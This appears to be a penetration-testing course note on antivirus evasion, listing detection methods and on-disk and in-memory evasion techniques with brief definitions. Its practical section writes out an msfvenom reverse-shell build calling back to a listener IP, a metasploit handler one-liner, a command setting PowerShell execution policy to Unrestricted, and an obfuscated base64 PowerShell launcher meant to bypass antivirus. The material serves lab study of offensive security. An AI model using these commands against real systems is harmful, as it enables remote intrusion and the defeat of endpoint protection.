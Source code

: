 # Module 17 (Antivirus Evasion)

Methods of Detection Malicious code

* Signature-Based Detection
* Heuristic-Based Detection
* Behavioral-Based Detection

Bypassing Antivirus

* On-Disk Evasion
  * packers
  * Obfuscators
  * Crypters
  * Software Protectors
*   In-Memory Evasion

    * Remote Process Memory injection
    * Relective DLL Injection
    * Process Hollowing&#x20;
    * lnline hooking



#### Methods of Detecting Malicious Code <a href="#methods-of-detecting-malicious-code" id="methods-of-detecting-malicious-code"></a>

**Signature-Based Detection**

* Identifies known malware based on predefined signatures.

**Heuristic-Based Detection**

* Analyzes the behavior of code to identify potential threats based on heuristics.

**Behavioral-Based Detection**

* Examines the behavior of code during execution to identify suspicious activities.

**ON-Disk Evasion**

**Packers**

* Tools that compress or encrypt executable files to obfuscate their content.

**Obfuscators**

* Techniques that obscure the code's logic and structure to make it harder to analyze.

**Crypters**

* Tools that encrypt executable files to evade signature-based detection.

**Software Protectors**

* Programs that protect executable files from analysis and tampering.

**In-Memory Evasion**

**Remote Process Memory Injection**

* Injecting code into the memory space of a remote process.

**Reflective DLL Injection**

* Loading a DLL into a process's memory without putting it on disk.

**Process Hollowing**

* Creating a new suspended process and replacing its memory space with malicious code.

**Inline Hooking**

* Modifying function pointers to redirect execution flow.

**Practical**

**Manual**

Avira Free  V 15.0.34.16

{% embed url="https://www.filepuma.com/download/avira_free_antivirus_15.0.34.16-17570/download/" %}

### Simple reverse shell binary

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.11.0.4 LPORT=4444 -f exe > binary.exe
```

### Power shell ExecutionPolicy

```powershell
powershell Get-ExecutionPolicy -Scope CurrentUser 
powershell Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser
powershell Get-ExecutionPolicy -Scope CurrentUser
```

### metasploit one line command

```bash
msfconsole -x "use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LPORT 4444; set LHOST 192.168.1.6"
```

### Powershell AV bypass payload

{% code overflow="wrap" %}
```powershell
$jHs = '<BASE64_ENCODED_PAYLOAD>'
$e = [System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($jHs))
$TmU = "-e "
if([IntPtr]::Size -eq 8){
    $YZfX = $env:SystemRoot + "\syswow64\WindowsPowerShell\v1.0\powershell"
    iex "& $YZfX $TmU $e"
} else {
    iex "& powershell $TmU $e"
}
```
{% endcode %}



Tools

* Shellter
* the fat rat
* Empire
* veil
